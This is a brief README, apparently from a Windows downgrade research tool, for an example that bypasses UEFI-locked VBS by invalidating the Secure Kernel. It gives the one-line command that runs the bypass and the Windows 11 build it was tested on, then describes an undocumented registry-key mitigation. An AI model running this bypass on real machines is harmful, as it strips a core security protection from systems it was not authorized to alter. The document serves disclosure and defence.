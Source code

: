 # VBS UEFI Locks Bypass

This usage example invalidates the Secure Kernel powering VBS. This causes VBS to not load even if enforced with UEFI locks. Remote disablement of VBS should not be possible without physical access to the target machine.

## Execution Steps
1. Make sure you are in the base repository directory
2. Run the following command
    ```
    windows_downdate.py --config-xml examples/VBS-UEFI-Locks-Bypass/Config.xml
    ```

## Tested Versions
This usage example was tested against Windows 11 23h2 (22631.3810)

## Mitigations
There is a registry key that once set mitigates the bypass. 

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v Mandatory /t REG_DWORD /d 1 /f
``` 

There are multiple pitfalls to this key - 
1. It is not documented, and the consequences of using it are unknown
2. It is not added automatically when enabling UEFI lock for VBS, so VBS is by-default vulnerable


